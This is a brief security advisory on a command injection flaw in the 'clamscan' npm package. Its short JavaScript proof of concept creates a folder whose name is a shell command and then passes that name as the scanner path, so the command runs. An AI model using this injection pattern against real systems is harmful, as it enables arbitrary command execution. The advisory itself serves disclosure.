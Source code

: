 
Affected versions of this package are vulnerable to Command Injection. It is possible to inject arbitrary commands as part of the  `_is_clamav_binary`  function located within  `Index.js`.

It should be noted that this vulnerability requires a pre-requisite that a folder should be created with the same command that will be chained to execute. This lowers the risk of this issue.
## POC
```js
var Root = require("clamscan"); 
var fs = require("fs"); 
var attack_code = "echo vulnerable > create.txt"; 
var root = new Root(); 
fs.mkdir(attack_code + "&", function(){}); 
root.init({"clamscan": {'path': attack_code + "&"}});
```


## References

-  [GitHub Permalink #1](https://github.com/kylefarris/clamscan/blob/master/index.js#L34)